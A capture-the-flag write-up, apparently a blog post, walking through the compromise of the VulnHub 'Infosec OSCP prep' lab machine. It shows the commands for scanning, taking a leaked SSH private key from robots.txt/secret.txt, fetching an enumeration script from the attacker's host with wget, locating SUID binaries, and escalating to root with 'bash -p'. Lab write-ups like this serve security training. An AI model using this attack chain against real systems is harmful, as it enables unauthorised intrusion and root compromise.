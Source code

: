 ```yaml
---
title: "Infosec OSCP prep"
date: 2024-06-12
draft: false
summary: "Writeup for Infosec OSCP prep CTF challenge on VulnHub."
tags: ["linux", "suid", "wordpress"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/infosec_oscp_prep/cover.webp"
  caption: "Infosec OSCP prep VulnHub Challenge"
  alt: "Infosec OSCP prep cover"
platform: "VulnHub"
---
```


*Infosec OSCP prep* is a boot to root box that contains 1 flag in the */root/* directory.
<!--more-->
You can download  *Infosec OSCP prep* from **VulnHub** by clicking on the link given below: 
- https://www.vulnhub.com/entry/infosec-prep-oscp,508/

## Recon

After booting the machine on **VMware**, I performed a network scan using **netdiscover** to discover the target IP.

```bash
netdiscover -r 192.168.1.0/24  
```

After finding the target IP, I performed an **nmap** aggressive scan to identify open ports and services.

```
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 33060    | mysql       |

![](https://cdn.ziomsec.com/infosec_oscp_prep/1.webp)

## Initial Foothold

I visited the web application that was running on the target using my browser.

![](https://cdn.ziomsec.com/infosec_oscp_prep/2.webp)

![](https://cdn.ziomsec.com/infosec_oscp_prep/3.webp)

The home page disclosed 2 things:
- Username: *oscp*.
- CMS: *WordPress*.

Upon closer inspection, when I clicked on the *SAMPLE PAGE* button on the top right corner, I got redirected to another page. I scrolled down and found a link to go to a login page.

![](https://cdn.ziomsec.com/infosec_oscp_prep/4.webp)

Upon clicking the *Log in* button, I got redirected to a wordpress login panel.

![](https://cdn.ziomsec.com/infosec_oscp_prep/5.webp)

To find more hidden directories and files, I ran a scan using **dirb**.

```shell
dirb http://TARGET/ /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/6.webp)

![](https://cdn.ziomsec.com/infosec_oscp_prep/7.webp)

I visited the *robots.txt* page and found a link to a file called *secret.txt*

![](https://cdn.ziomsec.com/infosec_oscp_prep/8.webp)

Upon visiting *secret.txt*, I get a base64 encoded block of text.

![](https://cdn.ziomsec.com/infosec_oscp_prep/9.webp)

I decoded this file and downloaded it onto my system.

```shell
curl http://TARGET/secret.txt | base64 -d > secret.txt
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/10.webp)

It turned out to be a private key. In order to **ssh** into the target using it, I had to find a valid username. Since the site was running on WordPress, I ran a scan using **wpscan** but didn't find anything besides the version and theme.

```bash
wpscan --url http://192.168.1.7
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/11.webp)

![](https://cdn.ziomsec.com/infosec_oscp_prep/12.webp)

I had earlier identified a username called *oscp* so, I tried using it along with the private key. To use the key for authentication, I modified its permissions so that only the owner has read and write access.

```shell
mv secret.txt private.key
chmod 600 private.key
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/13.webp)

I then authenticated to the box using the key:

```shell
ssh -i private.key oscp@TARGET
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/14.webp)

I got initial access to the system.

## Privilege Escalation

The challenge description mentioned that the flag was present inside the */root* directory. So, I tried downloaded **linux smart enumeration** script from **github** to enumerate privilege escalation vectors.

- https://github.com/diego-treitos/linux-smart-enumeration

```shell
cd /tmp
which wget
wget "http://KALI/lse.sh"
chmod +x lse.sh
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/15.webp)

It detected an **SUID** bit on the **bash** binary.

![](https://cdn.ziomsec.com/infosec_oscp_prep/16.webp)

I manually verified this by using the following command:

```bash
find / -user root -perm -u=s -ls 2>/dev/null
```

![](https://cdn.ziomsec.com/infosec_oscp_prep/17.webp)

Now I can simply type **bash -p** to get root access.

The **bash -p** command starts a new instance of the Bash shell in "privileged" mode. In simple terms, it means:
- **bash** is the command to start a new Bash shell.
- **-p** stands for "privileged mode."

With root access, I captured the flag from the *root* directory.

![](https://cdn.ziomsec.com/infosec_oscp_prep/18.webp)

## Closure

Here's a short summary of how I pwned the system:
- I found a username from the webpage: *oscp*.
- I found an SSH private key from the *robots.txt* listing inside *secret.txt*.
- I logged in as *oscp* using this SSH private key.
- I found an SUID bit on */bin/bash*.
- I executed privileged mode on **bash** using **bash -p**.

That's it from my side. Happy Hacking :)

------------------------------------------------------------------------------------